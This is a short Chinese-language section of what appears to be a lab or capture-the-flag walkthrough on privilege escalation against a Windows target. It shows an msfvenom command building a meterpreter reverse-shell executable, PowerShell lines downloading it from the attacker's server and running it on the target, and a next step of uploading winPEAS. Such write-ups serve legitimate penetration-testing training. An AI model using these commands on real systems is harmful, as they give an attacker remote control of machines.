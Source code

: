 # 提权

webshell不太稳定，我们编译一个稳定的meterpreter

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f exe > shell64.exe
```

在靶机依次执行下面两行代码，把shell下载到靶机

```
$client = new-object System.Net.WebClient
$client.DownloadFile('http://10.10.14.3:8000/shell64.exe', 'C:\users\merlin\Desktop\shell64.exe')
```

![截图](a1f06d0f5dc9b7603ee5806a149394dc.png)

参考链接：[PowerShell 语法](https://blog.csdn.net/leoxow/article/details/129426642#:~:text=PowerShell%20%E8%AF%AD%E6%B3%95%201%20%E5%91%BD%E4%BB%A4%E8%AF%AD%E6%B3%95%3A%20%E6%A0%87%E5%87%86%E5%91%BD%E4%BB%A4%E8%AF%AD%E6%B3%95%EF%BC%9A-%EF%BC%88%E5%A6%82%20Get-ChildItem%EF%BC%89%20%E6%B4%BB%E5%8A%A8%E7%9B%AE%E5%BD%95%E5%91%BD%E4%BB%A4%E8%AF%AD%E6%B3%95%EF%BC%9A-%EF%BC%88%E5%A6%82%20Get-ADUser%EF%BC%89,5%20%E6%9D%A1%E4%BB%B6%E8%AF%AD%E5%8F%A5%EF%BC%9A%E4%BD%BF%E7%94%A8if%E3%80%81else%E5%92%8Celseif%E5%85%B3%E9%94%AE%E5%AD%97%E6%89%A7%E8%A1%8C%E6%9D%A1%E4%BB%B6%E8%AF%AD%E5%8F%A5%E3%80%82%206%20%E5%BE%AA%E7%8E%AF%E8%AF%AD%E5%8F%A5%EF%BC%9A%E5%B8%B8%E8%A7%81%E7%9A%84%E5%BE%AA%E7%8E%AF%E8%AF%AD%E5%8F%A5%E6%9C%89for%E3%80%81foreach%E3%80%81while%E3%80%82%207%20%E5%87%BD%E6%95%B0%EF%BC%9A%E4%BD%BF%E7%94%A8function%E5%85%B3%E9%94%AE%E5%AD%97%E5%AE%9A%E4%B9%89%E5%87%BD%E6%95%B0%E3%80%82%208%20%E6%B3%A8%E9%87%8A%EF%BC%9A%E6%B3%A8%E9%87%8A%E4%BB%A5%E4%BA%95%E5%8F%B7%EF%BC%88%23%EF%BC%89%E5%BC%80%E5%A4%B4%E3%80%82)

powershell执行exe文件

```
&"C:\users\merlin\Desktop\shell64.exe"
```

拿到meterpreter以后，把winPEAS.bat 传到靶机，枚举提权漏洞
